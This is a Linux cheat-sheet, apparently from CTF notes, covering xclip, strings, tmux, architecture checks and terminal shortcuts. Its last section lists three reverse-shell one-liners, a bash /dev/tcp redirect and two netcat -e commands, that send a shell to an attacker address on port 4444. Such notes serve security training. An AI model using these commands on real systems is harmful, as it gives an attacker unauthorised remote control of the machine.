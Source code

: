 # Useful commands and tools on Linux

## xclip

### Install

- `sudo apt install xclip`

### Use

xclip is a tool that can allow you to get any output in you clipboard.  
Let's say you have a big input to copy and do not want to mess up with the mouse, you can use xclip.
- `cat myverybigfile | xclip -sel clipboard` will send the content of myverybigfile to the clipboard

## Strings

Strings will print human readable chars of a file. And for a CTF if we are looking for a specific string we can pipe it to grep
- `strings -e l file | grep -i FLAG` the `-e l` will select the encoding l is for 16-bit littleendian
- `strings file` is the basic use of the command

## TMUX

"tmux is a terminal multiplexer. It lets you switch easily between several programs in one terminal, detach them (they keep running in the background) and reattach them to a different terminal." Learn more about [tmux](https://github.com/tmux/tmux/wiki).

- `tmux new -s sessionName` create an join a new session
- `ctrl+b d` detach a session
- `tmux ls` list existing sessions
- `ctrl+b x` kill current session
- `tmux a -t sessionName` or `tmux a -t sessionId` join an existing session
- `tmux  ctrl+b pageup` to scroll and `q` to leave scroll mode

## Which architecture

- `lscpu` will tell you if you are 32 or 64
- `uname -m` similar but less verbose

## Useful shortcuts to use the terminal quickly

- `Ctrl+U` - clear all the current line from the end to the beginning only if the cursor is at the end of the line.
- `Ctrl+Y` - recall the cleared line 
- `Ctrl+K` - clear all the current line from the beginning to the end only if the cursor is at the beginning of the line.
- `Ctrl+W` - clear the previous word in the current line. For example if you have typed a command like `git diff /path/to/some/file` and you want to delete just the last parameter to the command, Ctrl+W is very useful.
- `Ctrl+E Ctrl+U` - move the cursor to the end of the line and clear all the current line from the end to the beginning.
- `Ctrl+A Ctrl+K` - move the cursor at the beginning of the line and clear all the current line from the beginning to the end.
- `Ctrl+C` - cancel the current command line, which implies clear all the current line no matter where the cursor is. (you can't recall the cleared line anymore).
- `Alt+Shift+#` - comment the current line, keep it in the history and bring up your prompt on a new line.
- `Ctrl+Shit+C` - copy something you previously selected
- `Ctrl+Shit+V` - paste something
- `Home` - Go to the begining of your prompt 
- `End` - Go to the end of your prompt

## Launch shells from a terminal

- Say we have a way through root and we need to get a reverse shell here are helpfuls command
  - `/bin/bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1`
  - `nc 10.10.14.11 4444 –e /bin/bash`
  - `nc 10.10.14.11 4444 –e /bin/sh`

## Resources

{% embed url="https://askubuntu.com/questions/470966/shortcut-to-clear-command-line-terminal" %} Shortcut to clear command line terminal {% endembed %}

